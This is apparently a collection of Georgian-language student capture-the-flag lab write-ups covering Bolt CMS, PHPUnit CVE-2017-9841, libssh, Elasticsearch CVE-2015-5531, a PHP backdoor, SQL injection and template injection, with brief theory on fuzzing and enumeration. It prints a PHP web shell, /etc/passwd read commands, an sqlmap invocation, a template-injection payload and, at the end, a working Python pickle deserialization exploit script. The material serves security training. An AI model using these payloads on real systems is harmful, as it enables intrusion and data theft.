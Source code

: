სიმულაციური აქტივობა 1
ლანა ეგიკოვა
Lab: Bolt
შევდივარ მითითებულ აიპი ადრესზე და მხვდება ასეთი გვერდი
ვნახულობ გვერდის სორსს, შემდეგ url-ში ვამატებ სიტყვა bolt-ს რადგან სორსში არის
მითითება href=bolt.cm და ამის შემდეგ იხსნება ასეთი გვერდი სარეგისტრაციო პანელით
შემდეგ ვვარაუდობთ შესაძლო იუზერს და პაროლს და რამდენიმე ცდის შედეგად იხსნება
გვერდი
ამის შემდეგ File management-ში გადავდივართ რო ვნახო შეგვიძლია თუ არა რაიმე php ფაილის
ატცვირთვა, ამისთვის ვქმნით ფაილს test.php , მაგრამ გვერდი ვერ აღიქვამს ამ ფაილს,
ექსთენშენის გადარქმევის შედეგად php->html ატვირთვა შესაძლებელი გახდა
შემდეგ უკვე ატვირთულ html ფაილს ვუცვლით php-ზე და ვაკლიკებთ მასზე, თუმცა გვერდი
მაინც ცარიელია ამიტომ ვცდი ასეთი ბრძაწნების მიწერას
შემდეგ ამის და აი ჩვენი ფლეგიც
Lab: Php-unit
შევდივარ მითითებულ მისამართზე და მხვდება რაღაც გვერდი სურათით
ამ ლაბში დაგვჭირდება dirsearch თული, ეს არის “advanced” command line რომელიც გვეხმარება
ფაილების და ფოლდერების დაბრუტფორსებაში ვებსერვერებზე
გადმოვწერეთ და ტერმინალში ვწერთ ასეთ ბრძანებას
ახლა გვჭირდება გავიგოთ თუ php-unit-ის რომელი ვერსიაა, ამაში დაგვეხმარება composer.json
გავიგეთ ვერსია და ახლა გუგლში ვეძებთ ვულნერაბილითის, მონიშნულ ნაწილს ვუწერთ
მისამართს
ახლა დაგვჭირდება burpsuite, მისი მეშვეობით ხელახლა შევდივართ ამ მისამართზე
შემდეგ ვაგზავნით repeater-ში და ვუწერთ ასეთ ბრძანებას
ვაჭერთ გაგზავნას და აი ჩვენი ფლეგიც
Lab: Libshh
შევდივარ მითითებულ აიპი ადრესზე და მხვდება ასეთი გვერდი, libssh არის
მულტიპლატფორმული C ლაიბრერი, რომელიც ახორციელებს SSHv2 პროტოკოლს კლიენტსა
და სერვერის მხრიდან. ამ ლაიბრერით შეგვიძლია ჩავრთოთ პროგრამები, გადავაგზავნოთ
ფაილები და ასე შემდეგ.
Nmap-ის საშუალებით ვასკანირებ პორტს ტერმინალში
ამის შემდეგ github-ზე ვეძებ libshh.py რადგან ფლეგის მოძებნაში ეგ დაგვეხმარება
და ვწერ ასეთ ბრძანებას რომელმაც უნდა მიმიყვანოს ფლეგამდე
თეორიული ნაწილი
2) Fuzzing არის ხარისხის უზრუნველყოფის (QA) ტექნიკა, რომელიც გამოიყენება
კოდირების შეცდომებისა და უსაფრთხოების ხარვეზების გამოსავლენად
პროგრამულ უზრუნველყოფაში, ოპერაციულ სისტემებში ან ქსელებში. ის
მუშაობს სისტემის დაქრაშვის მეთოდით ან რაიმე შეცდომების გამომწვევით,
როცა ხდება რანდომი ინპუტების შეყვანა. თუ აღმოჩენილია vulnerability, fuzz
ტესტირების პლატფორმა (ასევე უწოდებენ fuzzer) დაგვეხმარება მიზეზის
დადგენაში.
Website enumeration გულისხმობს რესურსების აღმოჩენას, რომლებსაც იყენებს ვებ
სერვერი, ისევე როგორც მთავარ, ძირითად ტექნოლოგიას, რომელზეც მუშაობს
ვებ სერვერი. ეს ინფორმაცია დაგვეხმარება ავარჩიოთ უფრო ეფექტური
თავდასხმის გზები, ისევე როგორც ასევე გამოიყენოს დაუცველობა ვებ სერვერის
პროგრამული უზრუნველყოფის კონკრეტულ ვერსიებში.
ჩვენ გვაქვს ასეთი თულები- Nmap, Metasploit, dirbuster და ა.შ. რაც გვეხმარება
Website enumeration-ისთვის
1)CVE-2018-10993 არის Libssh აუტენტიფიკაციის ექსპლოიტი, ხოლო libshh არის ლაიბერი.
კონკრეტულად ეს ფექიჯი როგორც უწერიათ საიტზე, არის
მულტიპლატფორმული C ლაიბერი რომელიც ახორციელებს SSHv2 პროტოკოლს
როგორც კლიენტ ასევე სერვერ საიდზე. ამ ლაიბერით შეგვიძლია ჩავრთოთ
პროგრამები, გადავაგზავნოთ ფაილები, დავამენეჯოთ ფაბლლიქ ქიები და ა.შ.
Lab: elastic
მითითებულ IP მისამართზე შესვლისას, ეკრანზე მოცემული შედეგით საკმაოდ დიდი
ინფრომაციის მიღება შეიძლება.
ვიღებთ ინფორმაციას ვერსიის შესახებ. ამ შემთხვევაში ვხედავთ რომ გამოყენებულია 1.3.4
ვერსია. ამიტომ ვეძებ ცნობილ სისუსტეებს elastic ვერსია 1.3.4 ზე. ინტერნეტში ძებნის
შედეგად გადავაწყდით Arbitrary file read CVE. ამაზე exploit შეგვიძლია ვიპოვოთ CVE-2015-
5531- Arbitrary file Vulnerability. ამ exploit-ის გამოყენებისთვის უნდა გავუშვათ შემდეგი
ბრძანება: python3 exploit_elastic.py IPIPIP /etc/passwd დაბრუნებულ შედეგში ჩანს ჩვენი CTF.
Lab: nodiff-backdoor
IP მისამართზე შესვლისას, პირველ რიგში უნდა გამოვიკვლიოთ მაქსიმალურად მეტი რამ ამ
საიტის შესახებ. კვლევის ერთ-ერთ მეთოდს წარმოადგენს Dirsearch. მისი გამოყენების
შედეგად რამდენიმე ქვესაქაღალდე იქცევს ყურადღებას, ერთ-ერთია backup.zip. როდესაც ამ
მისამართს მივმართავთ გადმოიწერს დაარქივებულ ფაილს. ფაილის ამორაქივების შემდეგ
ვხედავთ რომ ის იყენებს PHP-ს. ამიტომ ვეძებთ არსებულ სისუსტეებს, რაც შეიძლება რომ
გამოვიყენოთ. კოდში, backdoor-ის სახით, შეიძლება დატოვებული იყოს ისეთი კოდის
ფრაგმენტი, რომელიც გაშვებადია. ერთ-ერთ გაშვებად კოდს წარმოადგენს shell_exec. კოდში
grep –r “shell_exec(“ ბრძანებით ვნახულობთ რომ ასეთი ფრაგმენტი არსებობს. ამ ფრაგმენტის
გაანალიზებით ვხვდებით რომ როდესაც გავაგზავნით GET request-ს სადაც
welldone=knockknock გაეშვება ის რასაც ასევე ჩვენ გადავცემთ shazam პარამეტრის სახით.
DirSearch ის დროს ასევე შევამჩნიეთ flag.php ამიტომ მოდი ვცადოთ მისი წაკითხვა.
/?welldone=knockknock&shazam=cat flag.php ერთი შეხედვით არაფერი მოხდა თუმცა request
წარმატებული იყო. თუ ჩვენ მაინც შევამოწმებთ inspect elements ჩვენ დავინახავთ ჩვენს flag-ს.
სიმულაციური აქტივობა 1
გიორგი მაკასარაშვილი
Lab: PHP-Unit
მოცემულ IP მისამართზე შესვლისას ვხედავთ შემდეგ სურათს.
ახლა ვცდილობთ რაც შიძლება მეტი ინფორმაცია მივიღოთ ამ გვერდის შესახებ. საკმაოდ დიდ
ინფორმაციას მივიღებთ თუ გამოვიყენებთ dirsearch-ს, რომელიც დაგვეხმარება ფოლდერებისა
და ფაილდების bruteforce-ში. იმისთვის რომ ეს გამოვიყენოთ უნდა დავაყენოთ dirsearch და
გავუშვათ შემდეგი ბრძანება ./dirsearch.py -u http://34.89.210.219:30835/ -w ./db/dicc.txt
თვალში გვხვდება composer.json, მოდი ვნახოთ რა არის მანდ.
ჰოი საოცრებავ, ვიგებთ PHP-ს ვერსიას. ახლა შეგვიძლია ინტერნეტში მოვძებნოთ თუ არის ამ
ვერსიაზე უკვე რაიმე ცნობილი სისუსტე.
ყოფილა, PHPUnit Remote Code Execution (CVE-2017-9841), გადაკითხვის შედეგად ვიგებთ რომ
თურმე შეგვიძლია ჩვენთვის სასურველი php კოდის გაშვება, აბა ვცადოთ....
ამისთვის /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php უნდა დავამატოთ url-ს და გავუშვათ
post request. ამაში burpsuite დაგვეხმარება.
Burpsuite-ში ჩავრთავთ proxy-ს და მივუთითებს შესაბამის მისამართს, ამის შემდეგ გადაგვაქ
repeater-ში და დავატებთ ჩვენთვის სასურველ php კოდს
ვუალაა!!! ფლეგი ნაპოვნია.
Lab: elastic
მოცემულ IP მისამართზე შესვლისას ვხედავთ შემდეგ სურათს.
უკვე საკმაოდ დიდ ინფორმაციას ვიღებთ. ყველაზე მნიშვნელოვანი არის ვერსია 1.3.4
ინტერნეტში მოვძებნოთ თუ არის რაიმე ცნობილი სისუსტე elastic 1.3.4-ზე. მრავალი ძებნის
შემდეგ წავაწყდით exploit-ს: https://github.com/nixawk/labs/tree/master/CVE-2015-5531
ამ exploit-ის გამოყენებისთვის უნდა გავუშვათ შემდეგი ბრძანება:
python3 exploit.py http://34.89.210.219:31944/ /etc/passwd
დაბრუნებულ შედეგში ჩანს ჩვენი CTF.
სიმულაციური 2: გიორგი მაკასარაშვილი
ლაბი:
მოცემულ აიპი მისამართზე შესვლისას ვხედავთ შემდეგ სურათს
პირველ რიგში უნდა მოვიძიოთ რაც შეიძლება მეტი ინფორმაცია. ამის ერთ-ერთი
საშუალებაა dirseach. მისი გამოყენების შედეგად თვალში გვხვდება რამდენიმე დეტალი.
ერთ-ერთია რეგისტრაციის გვერდი.
ამ გვერდზე გადასვლისას ვხედავთ შემდეგ სურათს
ვცადოთ რეგისტრაცია სახელი:admin პაროლი:Giorgi
ამის შემდეგ ვცადოთ login
input ველში ვცადოთ სხვადასხვა მნიშვნელობების ჩაწერა. მაგალითისთვის როგორც ჩანს
%ის ჩაწერის დროს ყველანაირ პროდუქტს გვაჩვენებს, რაც იმას ნიშნავს რომ საიტი
მოწყვლადია SQLi injection-ის მიმართ.
ახლა შევამოწმოთ cookie, რადგან ვნახოთ დალოგინებისას რაიმე თუ შეინახა იქ. რაღაც გვაქ
ახლა ის უნდა გამოვიყენოთ sql injection-ში, რომლესაც sqlmap-ის საშუალებით ვიზავთ.
sqlmap --cookie="PHPSESSID=742e03f3a4f089e568eb2f9857c7c9ad" -u
http://34.107.71.117:32625/index.php --forms --columns --random-agent ბრძანების გაშვების
შემდეგ ვიღებთ შედეგს სადაც ცხრილის სახელად ვხედავთ ctf-ის ნაწილს
CTF{1nformat1on_sch3ma_c4n_ , ხოლო მეორე ნაწილი იმავე ცხრილში სვეტში ერთ-ერთი
მნიშვნელობაა: _d4t4}
CTF{1nformat1on_sch3ma_c4n_d4t4}
ლაბი: shark
მოცემულ მისამართზე შესვლისას ვხედავთ მხოლოდ ერთ input ველს
ამ ველში ნებისმიერი რამის ჩაწერის დროს, იგივე რამ გვიბრუნდება უკან
ცოტა უფრო მეტი ინფორმაცია რომ მოვიძიოთ მის შესახებ მაგალითად სერვერის, უნდა
გამოვიყენოთ curl
ვხედავთ რომ ეს არის Werkzeug. ინტერნეტ სივცეში მრავალი ძებნის შემდეგ მივაკვლევთ
შესაბამის ბრძანებას, რისი გაშვების შემდეგაც ვიპოვით ctf-ს <%
x=open("flag","r")
%>
${x.readlines()}

სიმულაციური აქტივობა
გიორგი მაკასარაშვილი
LAB: shark
მოცემულ მისამართზე შესვლისას ვხედავთ მხოლოდ ერთ input ველს
ამ ველში ნებისმიერი რამის ჩაწერის დროს, იგივე რამ გვიბრუნდება უკან
ცოტა უფრო მეტი ინფორმაცია რომ მოვიძიოთ მის შესახებ მაგალითად სერვერის,
უნდა გამოვიყენოთ curl
ვხედავთ რომ ეს არის Werkzeug. ინტერნეტ სივცეში მრავალი ძებნის შემდეგ
მივაკვლევთ შესაბამის ბრძანებას, რისი გაშვების შემდეგაც ვიპოვით ctf-ს
<%
x=open("flag","r")
%>
${x.readlines()}
LAB: online encryption
მოცემულია wireshark ფაილი, ამ ფაილში უნდა მოვძებნოთ ინფორმაცია შესაბამისი ფილტრების
გამოყენებით, პირველ რიგში უნდა გავფილტროთ http. ამის შემდეგ დავაკვირდებით რომ საინტერესო
ინფორმაცია არის გაგზავნილი მისამართზე 23.101.63.214, ამიტომ ვადებთ 2 ფილტრს. მიმღები რომ
იყოს აღნიშნული მისამართი და გამოყენებული იყოს http.
შედეგად ვხედავთ რამდენიმე გაგზავნილ პაკეთს, ყურადღებას იქცევს post მეთოდი რადგან ის
დაშიფრულია MD5-ით. მცირე ძებნისას ვაწყდებით დაშიფრულ სტრიქონს.
ინტერნეტში ძებნისას შეგვიძლია მივაკვლიოთ მისი გაშიფრის ხერხს.
შუალედური: გიორგი მაკასარაშვილი
LAB: elastic
მოცემულ IP მისამართზე შესვლისას ვხედავ მოცემულ შედეგს
უკვე ერთი შეხედვით საკმაოდ დიდ ინფორმაციას ვიღებთ. ერთ-ერთი ყველაზე მნიშვნელოვანია
ვერსია. როგორც ვხედავთ ვერსიის ნომერია 1.3.4 ამიტომ ვცდილობთ მივიღოთ ინფორმაცია
ელასტიკის 1.3.4 ვერსიის შესახებ.
Elastic 1.3.4 -ის გუგლში მოძებნის შედეგად ვიღებთ ქვემოთ მოცემულ სურათს რაც ნამდვილად არ
გვჭირდება
ამიტომ ვცდილობთ მოვძებნოთ აღნიშნული ვერსიის სისუსტეები. მცირე ძებნის შემდეგ
გადავაწყდებით CVE-2015-5531 -ს რაზეც უკვე არსებობს exploit
ამ კოდის გაანალიზების შემდეგ ვხვდებით რომ მის გამოსაყენებლად საჭიროა შემდეგი ბრძანების
გამოყენება: python3 exploit.py http://34.159.104.59:31363/ /etc/passwd
და აი ჩვენი CTF-იც
LAB: BOLT
მოცემულ მისამართზე შესვლისას გვხვდება ქვემოთ მოცემული შედეგი
არსებული საიტის სორს კოდის ანალიზის შედეგად ვხვდებით რომ URL-ში უნდა მივმართოთ
http://34.159.104.59:30660/bolt-ს რის შედეგადაც ვხვდებით ავტორიზაციის გვერდზე
უნდა ვეცადოთ შევიდეთ ადმინის უფლებებუით, რამდენიმე მარტივი ცდის შემდეგ ჩვენ შეგვიცლია
გამოვიცნოთ მომხმარებლის სახელი და პაროლი რადგან არც თუ ისე ძლიერი პაროლი და default
მომხმარებლის სახელი არის გამოყენებული.
შესვლისას და აღნიშნული dashboard-ის დათვალიერებისას ვხედავთ რომ შეგვიძლია ფაილების
ატვირთვა, თუმცა არა ყველა ფორმატის, ასევე შეგვიძლია ფაილის ფორნმატის შეცვლა. უნდა ვცადოთ
სასურველი ფაილის ფორმატის ატვირთვა და შემდეგ ამ ფაილის ტიპის შეცვლა. ავტვირთოთ TXT ტიპის
ფაილი, რომკელშიც იქნება PHP-ის კოდი ჩაწერილი, მაგალითისთვის: <?php system($_GET['cmd']) ?>
რომელიც ქომანდ ლაინზე მოგვცემს წვდომასა და ბრძანებების გაშვების შესაძლებლობას.
ატვირთვის შემდეგ უნდა შევუცვალოთ ფაილს გაფართოება და გავხადოთ PHP. ფაილის გახსნის შემდეგ
გადავდივართ ახალ გვერდზე. მოდი ვცადოთ რაიმე ქომანდის გაშვება URL-ის საშუალებით.
შედეგი გვაქვს და აქვრ ვხედავთ ფაილს სახელად flag.txt. უნდა წავიკითხოთ ეს ფაილი შესაბამისი
ბრძანებით: cat /flag.txt
ჩვენი ფლეგიც.
LAB: PHP unit
მისამართზე შესვლისას ვხედავთ შემდეგ სურათს
პირველ რიგში ვცდილობთ მაქსიმალურრად მეტი ინფორმაცია მივიღოთ ამ საითის შესახებ. ერთ-ერთი
გზა არის dirsearch
მისი გამოყენების შემდეგ თვალში საინტერესოდ ხვდწება რამდენიმე ქვედირექტორია ერთ-რთი არის
composer.json. შესაბამის მისამართზე შესვლისას ვხედავთ ვერსიის ნომერს.
ახლა საჭიროა ამ ვერსიის PHP-ზე ვნახოთ შესაბამისი სისუსტეები.
როგორც ჩანს მოცემულ მისამართზე შესვლისას ჩვენ გვაქ შესაძლებლობა გავუშვათ ბრძანებები. მოდი
ვცადოთ burpsuite-ს გამოყენებით. პირველ რიგში გავუშვათ ls -l / რათა ვნახოთ თუ რა არის
განთავსებული იქ
აქვე ვხედავთ ფაილს სახელად flag.txt მოდი ვნახოთ რა არის მანდ.
ჩვენი ფლეგი.
import pickle
import base64
import requests
class Exploit(object):
def __reduce__(self):
return eval, ("open('flag','r').read()",)
def sendPayload(p):
print(base64.urlsafe_b64encode(p))
headers = {"Cookie": "data=" + base64.urlsafe_b64encode(p).decode()}
t = requests.get("http://34.107.71.117:32664/dashboard",headers=headers)
print(t.text)
sendPayload(pickle.dumps(Exploit(), protocol=2))
